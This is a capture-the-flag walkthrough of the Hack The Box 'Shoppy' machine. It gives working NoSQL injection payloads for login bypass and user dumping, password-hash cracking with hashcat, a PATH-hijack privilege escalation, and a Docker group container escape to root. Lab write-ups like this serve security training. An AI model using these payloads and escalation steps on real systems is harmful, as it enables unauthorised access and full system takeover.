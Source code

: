 ```yaml
---
title: Shoppy
author: 0xskar
date: 2022-12-31 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [nosql, mongodb, hashcat, john, ghidra, PATH, docket, DNS]
---
```


<https://app.hackthebox.com/machines> Bypass a login screen with NoSQL injection, enumerate credentials on subdomains, reverse engineer a password protecter and privesc and escape docker container.

Initial nmap scans gve us a few ports and an http server on 80 that needs to be setup in hosts to access. http://shoppy.htb

Running `feroxbuster` we find a `/login` on port 80

Check for subdomains `wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://shoppy.htb' -H "Host: FUZZ.shoppy.htb" --hc 301`

we find `mattermost` add it to the /etc/hosts

We can bypass the login screen using nosql injection

- `user=' || 1==1%00&pass=' || 1==1%00`

Then searching for users we can use the following to dump all users

- `http://shoppy.htb/admin/search-users?username=admin'||'1==1`

```
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```

- `hashcat -m 0 shoppy.htb.hashes.josh /usr/share/wordlists/rockyou.txt`

and we get joshs pass: 6ebcea65320589ca4f2f1ce039975995:remembermethisway

We can login the the mattermost subdomain with their credentials.

Checking the recent mentions we have a note from jaeger

```
or the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0ppyBest@pp!
And deploy on it. 
```

also 

```
josh
1:25 AM

Oh I forgot to tell you, that we're going to use docker for the deployment, so I will add it to the first deploy 
```

We can login via ssh with jaeger creds. and get user.txt flag

Checking sudo -l we can run the following command `sudo -u deploy /home/deploy/password-manager` which 

basically looks for creds then when proper creds inserted executes `cat /home/deploy/creds.txt`. now this isnt using the full path so we should be ablt to use PATH escalation. Create a cat file in /tmp with bash -i then add /tmp to PATH. export PATH=/tmp:$PATH then using ghidra we find the password for the manager is Sample. Running the file we get deploy creds.


```
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

su to deply

checkng id and as expected we are inside a docker container and since we now have a user that belongs to the docker group we can escape. https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

- `find / -name docker.sock 2>/dev/null`
- `docker run -it -v /:/host/ alpine chroot /host/ bash`

and we're root